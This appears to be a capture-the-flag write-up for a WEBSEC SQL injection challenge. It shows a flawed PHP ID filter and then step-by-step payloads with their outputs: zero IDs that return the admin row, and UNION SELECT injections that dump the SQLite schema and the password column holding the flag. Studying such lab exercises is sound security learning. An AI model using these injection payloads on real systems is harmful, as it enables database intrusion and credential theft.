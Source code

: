 ```
  $tmp = explode(',',$_GET['ids']);
  for ($i = 0; $i < count($tmp); $i++ ) {
        $tmp[$i] = (int)$tmp[$i];
        if( $tmp[$i] < 1 ) {
            unset($tmp[$i]);
        }
  }

  $selector = implode(',', array_unique($tmp));

  $query = "SELECT user_id, user_privileges, user_name
  FROM users
  WHERE (user_id in (" . $selector . "));";
```

STEP 1: Payload: 1,2,3
OUTPUT: 
User user_36 with id 1 has no privileges.
User user_13 with id 2 has no privileges.
User user_99 with id 3 has no privileges.

STEP 2: Payload: 0,0,0
OUTPUT:
User admin with id 0 has all privileges.

STEP 3: Payload: ",,,)) union select 1,2, sql as user_id from sqlite_master--
OUTPUT: User CREATE TABLE users ( user_id INTEGER PRIMARY KEY, user_name TEXT NOT NULL,
user_privileges INTEGER NOT NULL, user_password TEXT NOT NULL ) with id 1 has no privileges.

STEP 3: Payload: ",,,)) union select 1,2,user_password as user_id from users--
OUTPUT:
User WEBSEC{SQL_injection_in_your_cms,_made_simple} with id 1 has no privileges.
